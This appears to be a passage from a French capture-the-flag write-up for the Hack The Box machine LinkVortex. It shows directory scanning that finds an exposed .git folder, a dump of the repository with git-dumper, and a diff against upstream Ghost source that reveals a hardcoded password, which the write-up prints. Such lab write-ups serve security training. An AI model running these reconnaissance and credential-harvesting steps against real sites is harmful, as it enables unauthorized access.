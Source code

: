 ```bash
```

### .git
On trouve un fichier **.git**, on peut alors récupérer ce dossier git et l'analyser avec **git-dumper**
```bash
$ dirsearch -u http://dev.linkvortex.htb             

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://dev.linkvortex.htb/

[17:09:04] Scanning: 
[17:09:04] 301 -   239B - /.git  ->  http://dev.linkvortex.htb/.git/
...
```

### git-dumper - Password Found

On dump les fichiers du **.git** avec git-dumper :

```bash
$ git-dumper http://dev.linkvortex.htb/.git ./git-dump/
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
...
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
```

J'ai cloné la véritable version de Ghost 5.58 et j'ai fais un diff avec le dump du .

```bash

$ wget https://github.com/TryGhost/Ghost/archive/refs/tags/v5.58.0.zip
$ unzip v5.58.0.zip
$ diff -r ./Ghost-5.58.0 ./git-dump
Only in ./git-dump: Dockerfile.ghost
diff --color -r ./Ghost-5.58.0/ghost/core/test/regression/api/admin/authentication.test.js ./git-dump/ghost/core/test/regression/api/admin/authentication.test.js
56c56
<             const password = 'thisissupersafe';
---
>             const password = 'OctopiFociPilfer45';
Only in ./git-dump: .git
```
password : `OctopiFociPilfer45`

